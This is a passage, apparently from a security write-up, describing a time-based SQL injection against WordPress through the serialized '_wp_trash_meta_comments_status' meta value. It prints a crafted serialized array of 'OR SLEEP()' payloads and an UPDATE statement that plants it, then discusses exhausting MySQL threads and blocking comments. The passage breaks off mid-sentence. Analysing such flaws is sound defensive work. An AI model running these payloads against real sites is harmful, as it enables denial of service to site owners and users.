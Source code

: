 	a:66:{s:15:\"1\') OR SLEEP(\'0\";i:0;s:15:\"1\') OR SLEEP(\'1\";i:1;s:15:\"1\') OR SLEEP(\'2\";i:2;s:15:\"1\') OR SLEEP(\'3\";i:3;s:15:\"1\') OR SLEEP(\'4\";i:4;s:15:\"1\') OR SLEEP(\'5\";i:5;s:15:\"1\') OR SLEEP(\'6\";i:6;s:15:\"1\') OR SLEEP(\'7\";i:7;s:15:\"1\') OR SLEEP(\'8\";i:8;s:15:\"1\') OR SLEEP(\'9\";i:9;s:16:\"1\') OR SLEEP(\'10\";i:10;s:16:\"1\') OR SLEEP(\'11\";i:11;s:16:\"1\') OR SLEEP(\'12\";i:12;s:16:\"1\') OR SLEEP(\'13\";i:13;s:16:\"1\') OR SLEEP(\'14\";i:14;s:16:\"1\') OR SLEEP(\'15\";i:15;s:16:\"1\') OR SLEEP(\'16\";i:16;s:16:\"1\') OR SLEEP(\'17\";i:17;s:16:\"1\') OR SLEEP(\'18\";i:18;s:16:\"1\') OR SLEEP(\'19\";i:19;s:16:\"1\') OR SLEEP(\'20\";i:20;s:16:\"1\') OR SLEEP(\'21\";i:21;s:16:\"1\') OR SLEEP(\'22\";i:22;s:16:\"1\') OR SLEEP(\'23\";i:23;s:16:\"1\') OR SLEEP(\'24\";i:24;s:16:\"1\') OR SLEEP(\'25\";i:25;s:16:\"1\') OR SLEEP(\'26\";i:26;s:16:\"1\') OR SLEEP(\'27\";i:27;s:16:\"1\') OR SLEEP(\'28\";i:28;s:16:\"1\') OR SLEEP(\'29\";i:29;s:16:\"1\') OR SLEEP(\'30\";i:30;s:16:\"1\') OR SLEEP(\'31\";i:31;s:16:\"1\') OR SLEEP(\'32\";i:32;s:16:\"1\') OR SLEEP(\'33\";i:33;s:16:\"1\') OR SLEEP(\'34\";i:34;s:16:\"1\') OR SLEEP(\'35\";i:35;s:16:\"1\') OR SLEEP(\'36\";i:36;s:16:\"1\') OR SLEEP(\'37\";i:37;s:16:\"1\') OR SLEEP(\'38\";i:38;s:16:\"1\') OR SLEEP(\'39\";i:39;s:16:\"1\') OR SLEEP(\'40\";i:40;s:16:\"1\') OR SLEEP(\'41\";i:41;s:16:\"1\') OR SLEEP(\'42\";i:42;s:16:\"1\') OR SLEEP(\'43\";i:43;s:16:\"1\') OR SLEEP(\'44\";i:44;s:16:\"1\') OR SLEEP(\'45\";i:45;s:16:\"1\') OR SLEEP(\'46\";i:46;s:16:\"1\') OR SLEEP(\'47\";i:47;s:16:\"1\') OR SLEEP(\'48\";i:48;s:16:\"1\') OR SLEEP(\'49\";i:49;s:16:\"1\') OR SLEEP(\'50\";i:50;s:16:\"1\') OR SLEEP(\'51\";i:51;s:16:\"1\') OR SLEEP(\'52\";i:52;s:16:\"1\') OR SLEEP(\'53\";i:53;s:16:\"1\') OR SLEEP(\'54\";i:54;s:16:\"1\') OR SLEEP(\'55\";i:55;s:16:\"1\') OR SLEEP(\'56\";i:56;s:16:\"1\') OR SLEEP(\'57\";i:57;s:16:\"1\') OR SLEEP(\'58\";i:58;s:16:\"1\') OR SLEEP(\'59\";i:59;s:16:\"1\') OR SLEEP(\'60\";i:60;s:16:\"1\') OR SLEEP(\'61\";i:61;s:16:\"1\') OR SLEEP(\'62\";i:62;s:16:\"1\') OR SLEEP(\'63\";i:63;s:16:\"1\') OR SLEEP(\'64\";i:64;s:16:\"1\') OR SLEEP(\'65\";i:65;}

And then insert it as usual when a post is trashed. 

	UPDATE wp_postmeta SET meta_value = "a:66:{s:15:\"1\') OR SLEEP(\'0\";i:0;s:15:\"1\') OR SLEEP(\'1\";i:1;s:15:\"1\') OR SLEEP(\'2\";i:2;s:15:\"1\') OR SLEEP(\'3\";i:3;s:15:\"1\') OR SLEEP(\'4\";i:4;s:15:\"1\') OR SLEEP(\'5\";i:5;s:15:\"1\') OR SLEEP(\'6\";i:6;s:15:\"1\') OR SLEEP(\'7\";i:7;s:15:\"1\') OR SLEEP(\'8\";i:8;s:15:\"1\') OR SLEEP(\'9\";i:9;s:16:\"1\') OR SLEEP(\'10\";i:10;s:16:\"1\') OR SLEEP(\'11\";i:11;s:16:\"1\') OR SLEEP(\'12\";i:12;s:16:\"1\') OR SLEEP(\'13\";i:13;s:16:\"1\') OR SLEEP(\'14\";i:14;s:16:\"1\') OR SLEEP(\'15\";i:15;s:16:\"1\') OR SLEEP(\'16\";i:16;s:16:\"1\') OR SLEEP(\'17\";i:17;s:16:\"1\') OR SLEEP(\'18\";i:18;s:16:\"1\') OR SLEEP(\'19\";i:19;s:16:\"1\') OR SLEEP(\'20\";i:20;s:16:\"1\') OR SLEEP(\'21\";i:21;s:16:\"1\') OR SLEEP(\'22\";i:22;s:16:\"1\') OR SLEEP(\'23\";i:23;s:16:\"1\') OR SLEEP(\'24\";i:24;s:16:\"1\') OR SLEEP(\'25\";i:25;s:16:\"1\') OR SLEEP(\'26\";i:26;s:16:\"1\') OR SLEEP(\'27\";i:27;s:16:\"1\') OR SLEEP(\'28\";i:28;s:16:\"1\') OR SLEEP(\'29\";i:29;s:16:\"1\') OR SLEEP(\'30\";i:30;s:16:\"1\') OR SLEEP(\'31\";i:31;s:16:\"1\') OR SLEEP(\'32\";i:32;s:16:\"1\') OR SLEEP(\'33\";i:33;s:16:\"1\') OR SLEEP(\'34\";i:34;s:16:\"1\') OR SLEEP(\'35\";i:35;s:16:\"1\') OR SLEEP(\'36\";i:36;s:16:\"1\') OR SLEEP(\'37\";i:37;s:16:\"1\') OR SLEEP(\'38\";i:38;s:16:\"1\') OR SLEEP(\'39\";i:39;s:16:\"1\') OR SLEEP(\'40\";i:40;s:16:\"1\') OR SLEEP(\'41\";i:41;s:16:\"1\') OR SLEEP(\'42\";i:42;s:16:\"1\') OR SLEEP(\'43\";i:43;s:16:\"1\') OR SLEEP(\'44\";i:44;s:16:\"1\') OR SLEEP(\'45\";i:45;s:16:\"1\') OR SLEEP(\'46\";i:46;s:16:\"1\') OR SLEEP(\'47\";i:47;s:16:\"1\') OR SLEEP(\'48\";i:48;s:16:\"1\') OR SLEEP(\'49\";i:49;s:16:\"1\') OR SLEEP(\'50\";i:50;s:16:\"1\') OR SLEEP(\'51\";i:51;s:16:\"1\') OR SLEEP(\'52\";i:52;s:16:\"1\') OR SLEEP(\'53\";i:53;s:16:\"1\') OR SLEEP(\'54\";i:54;s:16:\"1\') OR SLEEP(\'55\";i:55;s:16:\"1\') OR SLEEP(\'56\";i:56;s:16:\"1\') OR SLEEP(\'57\";i:57;s:16:\"1\') OR SLEEP(\'58\";i:58;s:16:\"1\') OR SLEEP(\'59\";i:59;s:16:\"1\') OR SLEEP(\'60\";i:60;s:16:\"1\') OR SLEEP(\'61\";i:61;s:16:\"1\') OR SLEEP(\'62\";i:62;s:16:\"1\') OR SLEEP(\'63\";i:63;s:16:\"1\') OR SLEEP(\'64\";i:64;s:16:\"1\') OR SLEEP(\'65\";i:65;}" WHERE meta_key = '_wp_trash_meta_comments_status' 

And you'll now always be eating up MySQL threads that could be used for something 
more productive. With PHP, because the process running the updates is synchronous, 
we only take up one thread though. If the code calling the database was looped 
asynchronously, we'd have a problem as we'd use _all_ the threads. The other 
thing this could do is that if the `wp_comments` table was changed from using
InnoDB to MyISAM we could stop anyone from commenting on the site due to [table locking]. 
Considering this hypothetical attacker can cause those UPDATE's to happen, they
can probably do this:
